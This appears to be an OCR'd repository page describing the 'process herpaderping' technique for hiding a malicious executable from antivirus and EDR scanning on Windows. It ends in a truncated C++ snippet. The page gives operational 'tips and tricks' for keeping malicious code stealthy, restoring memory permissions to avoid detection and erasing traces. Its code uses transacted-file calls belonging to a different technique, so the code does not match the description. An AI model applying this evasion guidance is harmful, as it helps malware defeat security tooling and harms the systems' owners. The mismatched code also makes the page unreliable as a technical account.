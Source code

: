 **Create a Section Object:** A section object is created, and the handle to the dropped executable is kept open.

**Process Creation:** The legacy process-creation API is called, with the section handle passed as a parameter, to create the process object.

**Obscure the Original Executable:** Before initializing the process, the original executable dropped to disk is obscured using the open file handle.

**Complete Process Initialization:** The main thread object is created, and the remaining process spin-up tasks are performed.

**Evasion Mechanism:**

When a driver’s callback receives a notification, it can scan the file’s contents using the FileObject member of the structure passed to the driver on process creation. However, since the file’s contents have been altered, the scanning function retrieves inaccurate data. Moreover, closing the file handle sends an IRP_MJ_CLEANUP I/O control code to any registered filesystem minifilters. If a minifilter attempts to scan the file’s contents, it will also retrieve the modified data, potentially leading to a false-negative scan result.

**Tips and Tricks:**

**Stealth:** Use benign processes or files as targets for herpaderping to avoid raising suspicions.

**Error Handling:** Ensure robust error handling. If any step fails, terminate the process to avoid leaving traces.

**Memory Management:** After writing the malicious code into the target process’s memory, change the memory permissions back to their original state to avoid detection.

**Clean Up:** After the malicious code has executed, clean up any traces to maintain stealth.

**Stay Updated:** As Windows evolves, so do its security measures. Stay updated with the latest Windows versions and test the technique regularly to ensure its effectiveness.

```
#include <windows.h>

#include <iostream>

#include <winternl.h>

int main() {

    // Step 1: Create a transaction

    HANDLE hTransaction = CreateTransaction(NULL, 0, 0, 0, 0, 0, NULL);

    if (hTransaction == INVALID_HANDLE_VALUE) {

        std::cerr << "Failed to create transaction." << std::endl;

        return 1;

    }

    // Step 2: Create a transacted file with malicious content

    HANDLE hFile = CreateFileTransacted(L"legit.exe", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL, hTransaction, NULL, NULL);

    if (hFile == INVALID_HANDLE_VALUE) {

        std::cerr << "Failed to create transacted file." << std::endl;

        CloseHandle(hTransaction);

        return 1;
```